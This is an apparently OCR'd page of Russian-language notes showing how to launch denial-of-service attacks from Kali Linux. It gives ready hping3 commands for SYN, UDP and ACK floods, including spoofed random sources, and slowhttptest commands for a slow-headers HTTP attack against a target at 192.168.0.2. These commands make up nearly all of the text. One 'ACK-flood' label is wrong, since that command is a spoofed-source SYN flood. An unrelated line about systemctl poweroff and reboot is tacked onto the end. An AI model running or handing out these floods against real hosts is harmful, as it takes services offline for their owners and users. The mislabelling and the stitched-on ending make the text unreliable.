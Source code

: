 ## С помощью дистрибутива Kali Linux и утилиты hping3 сможем создать SYN-flood атаку:

kali@kali:~$ sudo hping3 -c 10000 -d 150 -S -p 80 --flood --rand-source 192.168.0.2

-c — количество пакетов,
-d — размер каждого пакета
-p — номер порта,
-S — установить SYN-флаг,
–flood — посылать пакеты с максимально возможной скоростью.
192.168.0.2 — адрес атакуемого сервера

В дистрибутиве Kali Linux можно запустить UDP-flood атаку:

kali@kali:~$ sudo hping3 --flood --udp -p 80 -d 65500 192.168.0.2

В дистрибутиве Kali Linux можно запустить ACK-flood атаку:

kali@kali:~$ sudo hping3 --flood -A -p 80 -d 10000 192.168.0.2

В дистрибутиве Kali Linux можно запустить ACK-flood атаку:

kali@kali:~$ sudo hping3 --flood -c 10000 -s 1515 -p 1516 -S -a 192.168.0.2 192.168.0.2

- Рассмотрим процесс запуска Slow-атаки:

Установим Slowhttptest:
kali@kali:~$ sudo apt install slowhttptest

Убедимся, что программа установлена корректно, для этого запустим справку:
kali@kali:~$ slowhttptest -h

Запустим атаку:
$ slowhttptest -c 50000 -H -r 1000 -t GET -u http://192.168.0.2:8000

-с — количество соединений, которое нужно установить,
-H — атака с медленными заголовками,
-r — количество соединений в секунду,
-t — запрос,
-u — URL цели.


## Выключение и перезагрузка
- Выключение: systemctl poweroff — аналог устаревшего shutdown -P now
- Перезагрузка: systemctl reboot — аналог устаревшего shutdown -r now